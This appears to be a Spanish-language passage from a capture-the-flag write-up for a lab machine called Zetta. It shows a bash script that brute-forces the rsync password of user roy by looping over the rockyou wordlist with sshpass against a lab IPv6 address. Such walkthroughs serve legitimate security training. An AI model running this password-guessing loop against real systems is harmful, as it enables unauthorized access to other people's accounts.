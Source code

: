 ![](/assets/img/commons/Zetta/terminal4.png)

Al usar rsync, vemos que requiere una contraseña para acceder al directorio, por lo que creamos un script bash simple que aplicará fuerza bruta a la contraseña. 

## BruteForce sshpass with rsync 
Me crearé un script en bash rápido para hacer un ataque de fuera bruta directamente pasando sshpass si es que el usuario roy es el que está por ssh y encontrar su password directamente pasandole de diccionario el rockyou

```bash
#!/bin/bash

for i in $(cat /usr/share/wordlists/rockyou.txt)
do
    sshpass -p $i rsync -q rsync://roy@[dead:beef::57a:71c:23:77a]:8730/home_roy
    if [[ $? -eq 0 ]]
    then
        echo "La Password es: $i"
        exit
    fi
done
```